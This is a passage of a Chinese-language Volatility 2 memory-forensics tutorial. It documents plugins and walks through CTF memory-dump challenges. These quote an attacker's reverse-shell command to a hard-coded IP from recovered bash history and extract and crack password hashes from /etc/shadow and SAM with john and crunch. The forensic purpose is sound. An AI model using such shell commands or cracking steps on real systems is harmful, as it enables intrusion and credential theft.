vol2 -f ... --profile=... sessions
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 sessions
```

```
**************************************************
Session(V): fffff88004c57000 ID: 0 Processes: 27
PagedPoolStart: fffff900c0000000 PagedPoolEnd fffff920bfffffff
 Process: 320 csrss.exe 2019-12-11 13:41:32 UTC+0000
 Process: 376 psxss.exe 2019-12-11 13:41:33 UTC+0000
 Process: 424 wininit.exe 2019-12-11 13:41:34 UTC+0000
 Process: 484 services.exe 2019-12-11 13:41:35 UTC+0000
 Process: 492 lsass.exe 2019-12-11 13:41:35 UTC+0000
 Process: 500 lsm.exe 2019-12-11 13:41:35 UTC+0000
 Process: 588 svchost.exe 2019-12-11 13:41:39 UTC+0000
 Process: 652 VBoxService.ex 2019-12-11 13:41:40 UTC+0000
 Process: 720 svchost.exe 2019-12-11 13:41:41 UTC+0000
 Process: 816 svchost.exe 2019-12-11 13:41:42 UTC+0000
 Process: 852 svchost.exe 2019-12-11 13:41:43 UTC+0000
 Process: 876 svchost.exe 2019-12-11 13:41:43 UTC+0000
 Process: 472 svchost.exe 2019-12-11 13:41:47 UTC+0000
 Process: 1044 svchost.exe 2019-12-11 13:41:48 UTC+0000
 Process: 1208 spoolsv.exe 2019-12-11 13:41:51 UTC+0000
 Process: 1248 svchost.exe 2019-12-11 13:41:52 UTC+0000
 Process: 1372 svchost.exe 2019-12-11 13:41:54 UTC+0000
 Process: 1416 TCPSVCS.EXE 2019-12-11 13:41:55 UTC+0000
 Process: 1508 sppsvc.exe 2019-12-11 14:16:06 UTC+0000
 Process: 948 svchost.exe 2019-12-11 14:16:07 UTC+0000
 Process: 1856 wmpnetwk.exe 2019-12-11 14:16:08 UTC+0000
 Process: 480 SearchIndexer. 2019-12-11 14:16:09 UTC+0000
 Process: 2064 audiodg.exe 2019-12-11 14:32:37 UTC+0000
 Process: 2368 svchost.exe 2019-12-11 14:32:51 UTC+0000
 Process: 2660 svchost.exe 2019-12-11 14:35:14 UTC+0000
 Process: 1720 SearchFilterHo 2019-12-11 14:37:21 UTC+0000
 Process: 2868 SearchProtocol 2019-12-11 14:37:23 UTC+0000
 Image: 0xfffffa8001550410, Address fffff960000e0000, Name: win32k.sys
 Image: 0xfffffa8001545590, Address fffff960005a0000, Name: dxg.sys
 Image: 0xfffffa80015467f0, Address fffff960007c0000, Name: TSDDD.dll
```


### privs

显示进程权限

```
vol2 -f ... --profile=...  privs [options]

-o OFFSET, --offset=OFFSET
                     物理地址空间中的EPROCESS结构偏移量（十六进制）
-p PID, --pid=PID    指定要操作的进程ID（逗号分隔）
-n NAME, --name=NAME 指定要操作的进程名称（正则表达式匹配）
-s, --silent         过滤低价值信息
-r REGEX, --regex=REGEX
                     显示符合正则表达式的权限信息
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 privs
```


### notepad

列出记事本当前显示文本

```
vol2 -f ... --profile=... notepad [options]

-o OFFSET, --offset=OFFSET
                     物理地址空间中的EPROCESS结构偏移量（十六进制）
-p PID, --pid=PID    指定要操作的进程ID（逗号分隔）
-n NAME, --name=NAME 指定要操作的进程名称（正则表达式匹配）
-D DUMP_DIR, --dump-dir=DUMP_DIR
                     指定二进制数据转储目录
```


### iehistory

重建 IE 缓存/历史记录

```
vol2 -f ... --profile=... iehistory [options]

-o OFFSET, --offset=OFFSET
                     物理地址空间中的EPROCESS结构偏移量（十六进制）
-p PID, --pid=PID    指定要操作的进程ID（逗号分隔）
-n NAME, --name=NAME 指定要操作的进程名称（正则表达式匹配）
-L, --leak           查找LEAK类型记录（已删除）
-R, --redr           查找REDR类型记录（重定向）
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 iehistory
```

```
**************************************************
Process: 604 explorer.exe
Cache type "URL " at 0x5086000
Record length: 0x200
Location: https://www.google.com/favicon.ico
Last modified: 2019-10-22 18:30:00 UTC+0000
Last accessed: 2019-12-04 14:16:44 UTC+0000
File Offset: 0x200, Data Offset: 0x8c, Data Length: 0x9c
File: favicon[1].ico
Data: HTTP/1.1 200 OK
Content-Type: image/x-icon
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Alt-Svc: quic=":443"; ma=2592000; v="46,43",h3-Q050=":443"; ma=2592000,h3-Q049=":443"; ma=2592000,h3-Q048=":443"; ma=2592000,h3-Q046=":443"; ma=2592000,h3-Q043=":443"; ma=2592000
Content-Length: 5430

~U:smartnet
```


### hashdump

从内存转储密码哈希（LM/NTLM）

```
vol2 -f ... --profile=... hashdump [options]

-y SYS_OFFSET, --sys-offset=SYS_OFFSET
                     SYSTEM配置单元偏移量（虚拟）
-s SAM_OFFSET, --sam-offset=SAM_OFFSET
                     SAM配置单元偏移量（虚拟）
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 hashdump
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SmartNet:1001:aad3b435b51404eeaad3b435b51404ee:4943abb39473a6f32c11301f4987e7e0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f0fc3d257814e08fea06e63c5762ebd5:::
Alissa Simpson:1003:aad3b435b51404eeaad3b435b51404ee:f4ff64c8baac57d22f22edc681055ba6:::
```


### handles

打印各进程的打开句柄列表

```
vol2 -f ... --profile=... handles [options]

-o OFFSET, --offset=OFFSET
                     物理地址空间中的EPROCESS结构偏移量（十六进制）
-p PID, --pid=PID    指定要操作的进程ID（逗号分隔）
-n NAME, --name=NAME 指定要操作的进程名称（正则表达式匹配）
-P, --physical-offset
                     使用物理偏移量模式
-t OBJECT_TYPE, --object-type=OBJECT_TYPE
                     显示指定类型的对象（逗号分隔）
-s, --silent         过滤低价值信息
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 handles
```

```
Offset(V)             Pid             Handle             Access Type             Details
------------------ ------ ------------------ ------------------ ---------------- -------
0xfffffa8000ca0040      4                0x4           0x1fffff Process          System(4)
0xfffff8a000069ee0      4                0x8            0x2001f Key              MACHINE\SYSTEM\CONTROLSET001\CONTROL\HIVELIST
0xfffff8a000006270      4                0xc            0xf000f Directory        GLOBAL??
0xfffff8a000019ca0      4               0x10                0x0 Key              
```


### getsids

打印进程所有者 SID

```
vol2 -f ... --profile=... getsids [options]

-o OFFSET, --offset=OFFSET
                     物理地址空间中的EPROCESS结构偏移量（十六进制）
-p PID, --pid=PID    指定要操作的进程ID（逗号分隔）
-n NAME, --name=NAME 指定要操作的进程名称（正则表达式匹配）
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 getsids -p 604
```

```
explorer.exe (604): S-1-5-21-3073570648-3149397540-2269648332-1001 (SmartNet)
explorer.exe (604): S-1-5-21-3073570648-3149397540-2269648332-513 (Domain Users)
explorer.exe (604): S-1-1-0 (Everyone)
explorer.exe (604): S-1-5-21-3073570648-3149397540-2269648332-1000
explorer.exe (604): S-1-5-32-544 (Administrators)
explorer.exe (604): S-1-5-32-545 (Users)
explorer.exe (604): S-1-5-4 (Interactive)
explorer.exe (604): S-1-2-1 (Console Logon (Users who are logged onto the physical console))
explorer.exe (604): S-1-5-11 (Authenticated Users)
explorer.exe (604): S-1-5-15 (This Organization)
explorer.exe (604): S-1-5-5-0-211840 (Logon Session)
explorer.exe (604): S-1-2-0 (Local (Users with the ability to log in locally))
explorer.exe (604): S-1-5-64-10 (NTLM Authentication)
explorer.exe (604): S-1-16-8192 (Medium Mandatory Level)
```


### getservicesids

从注册表获取服务名并返回计算的 SID

```
vol2 -f ... --profile=... getservicesids
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 getservicesids
```

```
servicesids = { 
    'S-1-5-80-2676549577-1911656217-2625096541-4178041876-1366760775': 'AudioSrv',
    'S-1-5-80-957945053-4060038483-2323299089-2025834768-4289255912': 'b57nd60a',
    'S-1-5-80-289285388-4137671665-1240080895-2344186716-3552465961': 'clr_optimization_v2.0.50727_64',
    'S-1-5-80-2597136289-665204401-1725106016-1253143166-1853691573': 'dmvsc',
    'S-1-5-80-799667949-3218159461-2708755627-866028366-136143606': 'DumpIt',
    'S-1-5-80-1708301557-710215499-1045718168-382692165-3542596111': 'HdAudAddService',
    'S-1-5-80-2876499719-392125430-158013367-819050375-2387260967': 'ksthunk',
	...
}
```


### dumpregistry

将文件转储到磁盘

```
vol2 -f ... --profile=... dumpregistry [options]

-o HIVE_OFFSET, --hive-offset=HIVE_OFFSET
                     注册表配置单元偏移量（虚拟）
-D DUMP_DIR, --dump-dir=DUMP_DIR
                     指定存储转储文件的目录
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 dumpregistry -o 0xfffff8a0000b9010 -D out
```

```
**************************************************
Writing out registry: registry.0xfffff8a0000b9010.UsrClassdat.reg

**************************************************
```


### clipboard

提取 Windows 剪贴板内容

```
vol2 -f ... --profile=... clipboard
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 clipboard
```


### auditpol

打印注册表 HKLM\SECURITY\Policy\PolAdtEv 的审计策略

```
vol2 -f ... --profile=... auditpol [options]

-H, --hex            输出Policy\PolAdtEv注册表键的十六进制数据
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 auditpol
```

```
System Events:
	Security State Change: S
	Security System Extention: Not Logged
	System Integrity: S/F
	IPSec Driver: Not Logged
	Other System Events: S/F
Logon/Logoff Events:
	Logon: S
	Logoff: S
	Account Lockout: S
	IPSec Main Mode: Not Logged
	Special Logon: S
	IPSec Quick Mode: Not Logged
	IPSec Extended Mode: Not Logged
	Other Logon Events: Not Logged
	Network Policy Server: S/F
```


### svcscan

扫描 Windows 服务

```
vol2 -f ... --profile=...  svcscan
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 svcscan
```

```
Offset: 0xcfe540
Order: 221
Start: SERVICE_AUTO_START
Process ID: 588
Service Name: Power
Display Name: Power
Service Type: SERVICE_WIN32_SHARE_PROCESS
Service State: SERVICE_RUNNING
Binary Path: C:\Windows\system32\svchost.exe -k DcomLaunch

Offset: 0xcfe450
Order: 220
Start: SERVICE_DEMAND_START
Process ID: -
Service Name: PolicyAgent
Display Name: IPsec Policy Agent
Service Type: SERVICE_WIN32_SHARE_PROCESS
Service State: SERVICE_STOPPED
Binary Path: -
```


### shutdowntime

打印注册表中的系统关机时间

```
vol2 -f ... --profile=...  shutdowntime
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 shutdowntime
```

```
Volatility Foundation Volatility Framework 2.6.1
Registry: SYSTEM
Key Path: ControlSet001\Control\Windows
Key Last updated: 2019-12-11 13:40:18 UTC+0000
Value Name: ShutdownTime
Value: 2019-12-11 13:40:18 UTC+0000
```


## 题目

### Linux内存取证

导入 Profile，将文件 **ubuntu18.zip** 导入到 **volatility/plugins/overlays/linux** 文件夹中，并使用 **vol2 --info** 验证。

```
vol2 --info

Profiles
--------
Linuxubuntu18x64      - A Profile for Linux ubuntu18 x64
...
```


**一、请提交用户目录下压缩包中 flag.txt 文件内容**

导出内存中的所有文件路径，保存到 file 文件中。

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_find_file -L > file
```


过滤 file 文件中的内容，使用关键字 **/home/** 和 **zip**。

```
cat file | grep /home/ | grep zip

----------------                0x0 /home/hil/unzip
         3670125 0xffff90ed83f58978 /home/hil/flag.zip
```


将文件从内存文件中导出到本地磁盘。

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_find_file -i 0xffff90ed83f58978 -O flag.zip
```

```
file flag.zip

flag.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
```


尝试进行解压，提示需要密码。

```
unzip flag.zip 

Archive:  flag.zip
[flag.zip] flag.txt password: 
```


使用 crunch 工具生成 8 位纯数字密码全部组合的字典。

```
crunch  8 8 -t %%%%%%%% > passwd.txt

858 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100000000 
```


使用 zip2john 工具提取压缩包的 hash 值到文件中。

```
zip2john flag.zip > hash.txt
```


通过 john 工具，使用生成的密码字典进行爆破，获得压缩包密码（**20230309**）

```
john --wordlist=passwd.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Note: Passwords longer than 21 [worst case UTF-8] to 63 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
20230309         (flag.zip/flag.txt)     
1g 0:00:00:01 DONE (2025-03-11 14:30) 0.7519g/s 15213Kp/s 15213Kc/s 15213KC/s 20217856..20234239
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


使用密码解压压缩包，获取 flag.txt 中的值。

```
unzip flag.zip 

Archive:  flag.zip
[flag.zip] flag.txt password: 
  inflating: flag.txt
```

```
cat flag.txt

flag{welcome_y3h8aq2}
```


答案：**flag{welcome_y3h8aq2}**


**二、请提交 root 用户的登录密码**

获取 root 用户的密码，一般情况下都是获取 **/etc/shadow** 文件中 root 密码的 hash 值，并使用字典进行爆破。


获取 root 密码的 hash 值的方式有很多中，/etc/shadow 文件几乎 100% 会被明文加载到内存中，最简单的方式是使用 strings 命令输出整个内存文件中的字符串，并根据 /etc/shadow 文件存储内容的结构，使用正则表达式进行过滤。

```
strings linux | grep -e "root:.*:::"

root:$6$j/e.vUPt$pRNuWlw5UX8mQ9QybQBgRKDhQvKBcR3QkdCOlhRvlLuuISpEpQMJQJr1pXtKS390Mgj7E2tTFW1kizq79wiRr.:19608:0:99999:7:::
root:$6$j/e.vUPt$pRNuWlw5UX8mQ9QybQBgRKDhQvKBcR3QkdCOlhRvlLuuISpEpQMJQJr1pXtKS390Mgj7E2tTFW1kizq79wiRr.:19608:0:99999:7:::
root:$6$j/e.vUPt$pRNuWlw5UX8mQ9QybQBgRKDhQvKBcR3QkdCOlhRvlLuuISpEpQMJQJr1pXtKS390Mgj7E2tTFW1kizq79wiRr.:19608:0:99999:7:::
root:$6$j/e.vUPt$pRNuWlw5UX8mQ9QybQBgRKDhQvKBcR3QkdCOlhRvlLuuISpEpQMJQJr1pXtKS390Mgj7E2tTFW1kizq79wiRr.:19608:0:99999:7:::
```


刚才使用 **linux_find_file** 插件获取了内存中所有文件位置，使用 **/etc/shadow** 关键字进行过滤，获取 **INODE**，然后从内存中导出 **/etc/shadow** 文件。

```
cat file | grep /etc/shadow

          262337 0xffff90ed83070530 /etc/shadow-
          263668 0xffff90ee35c14568 /etc/shadow
```

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_find_file -i 0xffff90ee35c14568 -O shadow
```

```
cat shadow

root:$6$j/e.vUPt$pRNuWlw5UX8mQ9QybQBgRKDhQvKBcR3QkdCOlhRvlLuuISpEpQMJQJr1pXtKS390Mgj7E2tTFW1kizq79wiRr.:19608:0:99999:7:::
daemon:*:18885:0:99999:7:::
bin:*:18885:0:99999:7:::
sys:*:18885:0:99999:7:::
sync:*:18885:0:99999:7:::
games:*:18885:0:99999:7:::
man:*:18885:0:99999:7:::
lp:*:18885:0:99999:7:::
mail:*:18885:0:99999:7:::
news:*:18885:0:99999:7:::
uucp:*:18885:0:99999:7:::
proxy:*:18885:0:99999:7:::
www-data:*:18885:0:99999:7:::
backup:*:18885:0:99999:7:::
list:*:18885:0:99999:7:::
irc:*:18885:0:99999:7:::
gnats:*:18885:0:99999:7:::
nobody:*:18885:0:99999:7:::
systemd-network:*:18885:0:99999:7:::
systemd-resolve:*:18885:0:99999:7:::
syslog:*:18885:0:99999:7:::
messagebus:*:18885:0:99999:7:::
_apt:*:18885:0:99999:7:::
uuidd:*:18885:0:99999:7:::
avahi-autoipd:*:18885:0:99999:7:::
usbmux:*:18885:0:99999:7:::
dnsmasq:*:18885:0:99999:7:::
rtkit:*:18885:0:99999:7:::
cups-pk-helper:*:18885:0:99999:7:::
speech-dispatcher:!:18885:0:99999:7:::
whoopsie:*:18885:0:99999:7:::
kernoops:*:18885:0:99999:7:::
saned:*:18885:0:99999:7:::
avahi:*:18885:0:99999:7:::
colord:*:18885:0:99999:7:::
hplip:*:18885:0:99999:7:::
geoclue:*:18885:0:99999:7:::
pulse:*:18885:0:99999:7:::
gnome-initial-setup:*:18885:0:99999:7:::
gdm:*:18885:0:99999:7:::
hil:$6$F1jR4mYh$/tNxOqY2kmxTEo1yBHcSRpaJKj164FAjgW0KIOyu3.AY9.t0sZri5/8/LnDxQTU/Cj3z68kIZy8FhCoYlBs4o.:19581:0:99999:7:::
sshd:*:19581:0:99999:7:::
```


将 root 用户的信息复制到一个单独的文件中，使用 rockyou 字典进行爆破。

```
john --wordlist=rockyou.txt root_pass
```

```
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Note: Passwords longer than 26 [worst case UTF-8] to 79 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
ABCabc123        (root)     
1g 0:00:00:04 DONE (2025-03-11 15:05) 0.2024g/s 10986p/s 10986c/s 10986C/s sooty123..250895
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


答案：**ABCabc123**


**三、请指出攻击者使用什么命令实现提权操作**

使用 linux_bash 插件导出执行的命令

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_bash
```

```
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    1831 bash                 2023-09-08 03:14:52 UTC+0000   find / -perm -4000 -exec ls -la {} \; 2>/dev/null 
    1831 bash                 2023-09-08 03:14:52 UTC+0000   0
    1831 bash                 2023-09-08 03:15:05 UTC+0000   sudo su
    1831 bash                 2023-09-08 03:15:29 UTC+0000   find /etc/passwd -exec bash -ip >& /dev/tcp/192.168.29.129/7777 0>&1 \;
    2020 bash                 2023-09-08 03:15:33 UTC+0000   whoami
    2020 bash                 2023-09-08 03:15:35 UTC+0000   cat /etc/shadow
    2020 bash                 2023-09-08 03:16:01 UTC+0000   cp /etc/shadow /home/hil/
    2020 bash                 2023-09-08 03:16:07 UTC+0000   cat /home/hil/shadow
    2093 bash                 2023-09-08 03:16:30 UTC+0000   USER=root
    2093 bash                 2023-09-08 03:16:30 UTC+0000   ls
    2093 bash                 2023-09-08 03:16:48 UTC+0000   nohup python3 powershell.py &
    2093 bash                 2023-09-08 03:16:59 UTC+0000   vim powershell.py 
    2093 bash                 2023-09-08 03:17:14 UTC+0000   nohup python3 powershell.py &
    2093 bash                 2023-09-08 03:17:25 UTC+0000   ls
    2093 bash                 2023-09-08 03:17:37 UTC+0000   USER=root
    2093 bash                 2023-09-08 03:17:37 UTC+0000   ls
    2093 bash                 2023-09-08 03:17:37 UTC+0000   cd /home/hil/
    2093 bash                 2023-09-08 03:17:44 UTC+0000   nano shadow 
    2093 bash                 2023-09-08 03:17:44 UTC+0000   s
    2196 bash                 2023-09-08 03:18:00 UTC+0000   USER=root
    2196 bash                 2023-09-08 03:18:00 UTC+0000   ls
    2196 bash                 2023-09-08 03:18:02 UTC+0000   cd /home/hil/
    2196 bash                 2023-09-08 03:18:03 UTC+0000   ls
    2196 bash                 2023-09-08 03:18:05 UTC+0000   unzip flag.zip 
    2196 bash                 2023-09-08 03:18:05 UTC+0000   ???B6V
    2288 bash                 2023-09-08 03:18:26 UTC+0000   cd linux_memory/
    2288 bash                 2023-09-08 03:18:30 UTC+0000   ./lmg -y
```


答案：**find /etc/passwd -exec bash -ip >& /dev/tcp/192.168.29.129/7777 0>&1 \;**


**四、请指出内存中恶意进程的 PID**

在 **linux_bash** 插件输出的结果中发现 **nohup python3 powershell.py &**，使用 pslist 查看进程 ID。

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_pslist | grep powershell
```

```
0xffff90edaf8445c0 powershell           2132            2093            0               0      0x0000000061efe000 2023-09-08 03:17:27 UTC+0000
```


答案：**2132**


**五、请指出恶意进程加密文件后的文件类型**

查看恶意进程有哪些子进程。

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_pstree -p 2132
```

```
Name                 Pid             Uid            
powershell           2132                           
.gpg                 2368                           
```


使用 linux_psaux 查看启动进程时使用的详细参数。

```
Pid    Uid    Gid    Arguments                                                       
2132   0      0      powershell                                                      
2368   0      0      gpg --output wlaq.txt.gpg --encrypt --recipient chinaskills@163.com wlaq.txt
```


答案：**gpg**


### MemLabs：1

我姐姐的电脑崩溃了。我们很幸运能够恢复这个内存转储文件。你的任务是从系统中获取她所有的重要文件。根据我们的回忆，当时我们突然看到一个黑窗口弹出来，似乎有一些东西正在执行。在电脑崩溃的时候，她正尝试画一些东西。这就是我们对崩溃时情况的全部记忆了。

**注意**：本挑战由3个标志（flag）组成。


根据描述，有一个黑窗口弹出来，猜测可能是 cmd.exe ，使用 consoles 插件提取控制台信息。

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 consoles
```

```
**************************************************
ConsoleProcess: conhost.exe Pid: 2692
Console: 0xff756200 CommandHistorySize: 50
HistoryBufferCount: 1 HistoryBufferMax: 4
OriginalTitle: %SystemRoot%\system32\cmd.exe
Title: C:\Windows\system32\cmd.exe - St4G3$1
AttachedProcess: cmd.exe Pid: 1984 Handle: 0x60
----
CommandHistory: 0x1fe9c0 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 1 LastAdded: 0 LastDisplayed: 0
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x60
Cmd #0 at 0x1de3c0: St4G3$1
----
Screen 0x1e0f70 X:80 Y:300
Dump:
Microsoft Windows [Version 6.1.7601]                                            
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.                 
                                                                                
C:\Users\SmartNet>St4G3$1                                                       
ZmxhZ3t0aDFzXzFzX3RoM18xc3Rfc3Q0ZzMhIX0=                                        
Press any key to continue . . .                                                 
```


consoles 输出了当时 cmd.exe 窗口中的内容，用户输入了 St4G3$1 命令，然后输出了一个 base64 编码的内容，进行解码后获得 flag。

```
echo ZmxhZ3t0aDFzXzFzX3RoM18xc3Rfc3Q0ZzMhIX0= | base64 -d

flag{th1s_1s_th3_1st_st4g3!!}
```


根据描述，它的姐姐正在试图画一些东西，使用 pslist 插件查看是否有和画图有关的进程，搜索发现 Windows 自带的画图软件进程名为 mspaint。

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 pslist > win.pslist
```

```
cat win.pslist | grep mspaint

0xfffffa80022bab30 mspaint.exe            2424    604      6      128      1      0 2019-12-11 14:35:14 UTC+0000
```


通过分析发现当时电脑上确实存在 mspaint 进程（PID 2424），使用 memdump 将该进程的内存导出。

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 memdump -p 2424 -D out

************************************************************************
Writing mspaint.exe [  2424] to 2424.dmp
```


将导出的文件 2424.dmp 重命名为 2424.data，并使用 gimp 软件尝试恢复画图进程的屏幕内容。

首先将**图像类型**选择为 **RGB**，**宽度和高度**设置为 **1000**。


逐渐拖动滑块，**高度和宽度保持不变**，寻找到**白色、灰白色、灰色的部分**。


逐步**减小或增加宽度**，**位移和高度保持不变**，发现意思画图进程当时的屏幕内容，但可能是翻转的样子。


点击右下角的“打开”按钮，打开图片，并设置**竖直翻转**，成功获得 flag。


在描述中要恢复所有重要的内容，使用 filescan 扫描内存中所有的文件。

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 filescan > file
```


使用 **hashdump** 插件查看**用户的名称和密码**（加密后）。

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SmartNet:1001:aad3b435b51404eeaad3b435b51404ee:4943abb39473a6f32c11301f4987e7e0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f0fc3d257814e08fea06e63c5762ebd5:::
Alissa Simpson:1003:aad3b435b51404eeaad3b435b51404ee:f4ff64c8baac57d22f22edc681055ba6:::
```


用户的性别为女性，很可能是使用 Alissa Simpson 用户登录的操作系统。使用关键词过滤搜索到的文件，主要查看用户文件夹下的文件。

```
cat file | grep Users | grep "Alissa Simpson" | grep -E "Desktop|Documents|Downloads|Pictures|Music|Videos"
```

```
root@xiaoshae:/mnt/data/memory# cat file | grep Users | grep "Alissa Simpson" | grep -E "Desktop|Documents|Downloads|Pictures|Music|Videos"
0x000000003e811370      1      0 R--rwd \Device\HarddiskVolume2\Users\Alissa Simpson\Downloads\desktop.ini
0x000000003e83b630      1      0 R--rwd \Device\HarddiskVolume2\Users\Alissa Simpson\Pictures\desktop.ini
0x000000003e865a20      1      0 R--rwd \Device\HarddiskVolume2\Users\Alissa Simpson\Music\desktop.ini
0x000000003e8aa070      1      0 R--rwd \Device\HarddiskVolume2\Users\Alissa Simpson\Videos\desktop.ini
0x000000003ebd4d10      1      0 R--rwd \Device\HarddiskVolume2\Users\Alissa Simpson\Desktop\desktop.ini
0x000000003ed12f20      1      0 R--rwd \Device\HarddiskVolume2\Users\Alissa Simpson\Documents\desktop.ini
0x000000003fa04790      1      1 R--rw- \Device\HarddiskVolume2\Users\Alissa Simpson\Documents
0x000000003fa3ebc0      1      0 R--r-- \Device\HarddiskVolume2\Users\Alissa Simpson\Documents\Important.rar
0x000000003fa89790      1      1 R--rw- \Device\HarddiskVolume2\Users\Alissa Simpson\Documents
0x000000003fac3bc0      1      0 R--r-- \Device\HarddiskVolume2\Users\Alissa Simpson\Documents\Important.rar
0x000000003fb0e790      1      1 R--rw- \Device\HarddiskVolume2\Users\Alissa Simpson\Documents
0x000000003fb48bc0      1      0 R--r-- \Device\HarddiskVolume2\Users\Alissa Simpson\Documents\Important.rar
...
```


发现用户的 Document（文档）文件夹下存在 Important.rar 文件，使用 dumpfiles 导出文件。

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000003fa3ebc0 -D .

DataSectionObject 0x3fa3ebc0   None   \Device\HarddiskVolume2\Users\Alissa Simpson\Documents\Important.rar
```


分析文件的信息。

```
file file.None.0xfffffa8001034450.dat

file.None.0xfffffa8001034450.dat: RAR archive data, v5
```

```
rar v file.None.0xfffffa8001034450.rar

RAR 7.00   Copyright (c) 1993-2024 Alexander Roshal   26 Feb 2024
Trial version             Type 'rar -?' for help

Archive comment:
Password is NTLM hash(in uppercase) of Alissa's account passwd.

Archive: file.None.0xfffffa8001034450.rar
Details: RAR 5

 Attributes      Size    Packed Ratio    Date    Time   Checksum  Name
----------- ---------  -------- ----- ---------- -----  --------  ----
*   ..A....     46045     41856  90%  2019-12-11 21:34  997C37CD  flag3.png
----------- ---------  -------- ----- ---------- -----  --------  ----
                46045     41856  90%                              1
```

压缩包属性注释提示：密码是 Alissa 账户密码的 NTLM 哈希（大写）。


在前面导出的 hash 信息中，Alissa Simpson 用户的信息如下。

```
Alissa Simpson:1003:aad3b435b51404eeaad3b435b51404ee:f4ff64c8baac57d22f22edc681055ba6:::
```


Alissa Simpson 用户 NTLM 哈希部分。

```
f4ff64c8baac57d22f22edc681055ba6
```

```
F4FF64C8BAAC57D22F22EDC681055BA6
```


压缩包密码是 **F4FF64C8BAAC57D22F22EDC681055BA6**，解压压缩包。

```
unrar x file.None.0xfffffa8001034450.rar

UNRAR 7.00 freeware      Copyright (c) 1993-2024 Alexander Roshal

Archive comment:
Password is NTLM hash(in uppercase) of Alissa's account passwd.


Extracting from file.None.0xfffffa8001034450.rar

Enter password (will not be echoed) for flag3.png: 

Extracting  flag3.png                                                 OK 
All OK
```

